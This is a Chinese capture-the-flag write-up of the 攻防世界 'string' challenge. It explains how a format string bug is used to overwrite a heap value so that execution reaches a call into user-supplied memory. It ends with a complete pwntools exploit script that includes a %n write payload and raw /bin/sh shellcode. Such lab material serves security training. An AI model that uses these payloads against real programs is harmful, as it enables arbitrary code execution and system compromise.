





# 攻防世界: string

## **[目标]**
shellcode,format string bug

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 首先请自行理解一下程序的逻辑。

- 查看有哪些保护机制开启。


- 审计 sub_400CA6 函数的时候，发现一个比较可疑的地方


- 这句话的意思是：把v1强制转化成一个函数指针，然后调用这个函数。也就是说如果我们shellcode写到这个位置，就能直接调用。shellcode可以通过上面的read函数来写进去。

- 那么如何才能让程序的执行流到达这个位置呢。需要让`*a1 == a1[1]`。a1是作为参数传进来的，通过回溯，我们发现 a1 就是在 main 函数中 定义的v3，是一个指向堆块的指针。其中`v3[0]=68`,`v3[1]=85`。也就是说当`v3[0]==v3[1]`时就能满足`*a1 == a1[1]`。可如何才能修改成功呢？


- 上图可知，有一个格式化字符串漏洞，可以进行任意地址写。接下来我们需要知道v3[0]的地址。



- 其实输出的 secret[0] 就是 我们需要的地址。

<mark>思路</mark>：现在 地址有了，利用格式化字符串 将 `*a1 == a1[1]`，成功进入脆弱点，写入shellcode。

- 这道题有一点需要注意，这是一个64位的程序，在64位下，函数前6个参数依次保存在rdi、rsi、rdx、rcx、r8和r9寄存器中（也就是说，若使用”x$”，当1<=x<=6时，指向的应该依次是上述这6个寄存器中保存的数值），而从第7个参数开始，依然会保存在栈中。故若使用”x$”，则从x=7开始，我们就可以指向栈中数据了。

- 在输入address的时候，输入1234，并在 `printf(&format, &format)`前下一个断点，查看我们输入的地址在栈中的位置：



- 完成exp如下：

```python
from pwn import *

p = process("./string")

p.recvuntil("secret[0] is ")
addr = int(p.recvuntil("\n")[:-1],16)
log.success("addr:"+hex(addr))

p.sendlineafter("be:\n","GG")
p.sendlineafter("up?:\n","east")
p.sendlineafter("leave(0)?:\n","1")

p.sendlineafter("address\'\n", str(addr))

# 输出85个字节 就能把位于7$上的地址的内容改写位85
p.sendlineafter("is:\n", "%85c%7$n")

# shellcode = asm(shellcraft.sh())
shellcode = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
p.sendlineafter("SPELL\n",shellcode)
sleep(0.1)
p.interactive()
```

## **[参考阅读]**
[关于格式化字符串和64位的格式化字符串利用](https://www.anquanke.com/post/id/85785)